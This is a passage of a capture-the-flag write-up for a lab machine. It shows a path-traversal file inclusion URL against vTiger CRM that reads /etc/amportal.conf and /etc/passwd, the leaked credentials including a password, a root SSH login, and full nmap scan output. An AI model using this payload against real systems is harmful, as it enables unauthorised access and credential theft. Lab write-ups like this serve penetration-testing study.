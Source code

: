 We go to our web browser and browse to `(https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action)`, and see a dump of credentials. Sifting trough the information, we see a username `admin` and password `jEhdIekWmdjE`. Since we saw Port 22 through NMAP, we can attempt to SSH with these credentials.

### 8. SSH (Port 22) with Credentials Found, Getting Flags
Trying to SSH in to the system with username `admin` and password `jEhdIekWmdjE`, we got a `Permission denied` error, and perhaps it was the username that was wrong. Using the same VTigerCRM exploit to expose files, we expose the `etc/passwd` file to find valid usernames.

We were able to SSH into the system with username `root` and password `jEhdIekWmdjE`, to get the flags in the box.

# Attack
## 1. NMAP
First typical scan.
```
hippoeug@kali:~$ nmap -sC -sV 10.10.10.7 -Pn -v
...
Scanning 10.10.10.7 [1000 ports]
Discovered open port 111/tcp on 10.10.10.7
Discovered open port 110/tcp on 10.10.10.7
Discovered open port 22/tcp on 10.10.10.7
Discovered open port 3306/tcp on 10.10.10.7
Discovered open port 80/tcp on 10.10.10.7
Discovered open port 995/tcp on 10.10.10.7
Discovered open port 443/tcp on 10.10.10.7
Discovered open port 143/tcp on 10.10.10.7
Discovered open port 25/tcp on 10.10.10.7
Discovered open port 993/tcp on 10.10.10.7
Discovered open port 4445/tcp on 10.10.10.7
Discovered open port 10000/tcp on 10.10.10.7
...
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: Completed OK ANNOTATEMORE X-NETSCAPE NAMESPACE URLAUTHA0001 LIST-SUBSCRIBED MULTIAPPEND IMAP4rev1 RIGHTS=kxte CATENATE NO SORT=MODSEQ IDLE CONDSTORE STARTTLS THREAD=ORDEREDSUBJECT THREAD=REFERENCES SORT BINARY QUOTA LISTEXT CHILDREN IMAP4 ATOMIC MAILBOX-REFERRALS UNSELECT RENAME ACL ID UIDPLUS LITERAL+
443/tcp   open  ssl/https?
|_ssl-date: 2020-11-29T10:56:57+00:00; +1h00m02s from scanner time.
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
```